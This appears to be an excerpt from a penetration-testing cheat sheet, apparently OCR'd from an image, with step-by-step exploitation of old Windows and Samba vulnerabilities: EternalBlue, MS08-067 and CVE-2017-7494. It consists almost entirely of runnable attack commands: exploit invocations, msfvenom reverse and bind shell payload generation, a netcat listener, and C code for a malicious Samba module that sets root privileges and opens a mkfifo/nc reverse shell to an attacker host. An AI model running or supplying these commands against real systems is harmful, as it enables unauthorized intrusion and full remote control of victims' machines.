 - Exploit
  - `python eternalblue_exploit<NUMBER>.py <IP> shellcode/sc_all.bin`
    - May need to run it multiple times

  - If this doesn’t work, try this one
    - `python zzz_exploit.py <IP>`

- MS08-067
  - Download exploit code
    - `git clone https://github.com/andyacer/ms08_067.git`

  - Generate payload
    - `msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows`
    - `msfvenom -p windows/shell_bind_tcp RHOST=<IP> LPORT=<PORT> EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows`

  - Modify
    - Modify ms08_067_2018.py and replace the shellcode variable by the one generated with msfvenom.

  - Listener
    - `nc -lvp <PORT>`

  - Exploit
    - `python ms08_067_2018.py <IP> <NUMBER> 445`

- CVE-2017-7494
  - Download exploit code
    - `git clone https://github.com/joxeankoret/CVE-2017-7494`
    - Create a new file named poc.c :
    ```
      #include <stdio.h>
      #include <stdlib.h>

      int samba_init_module(void)
      {
        setresuid(0,0,0);
        system("ping -c 3 <IP>");
      }
    ```
  - Build
    - `gcc -o test.so -shared poc.c -fPIC`
  
  - Start an ICMP listener
    - `sudo tcpdump -i <INTERFACE> icmp`

  - Exploit
    - `./cve_2017_7494.py -t <TARGET_IP> -u <USER> -P <PASSWORD> --custom=test.so`
  
  - If you reiceve 3 pings on your listener then the exploit works. Now let’s get a shell :
    ```
    #include <stdio.h>
    #include <stdlib.h>

    int samba_init_module(void)
    {
      setresuid(0,0,0);
      system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> <PORT> >/tmp/f");
    }
    ```
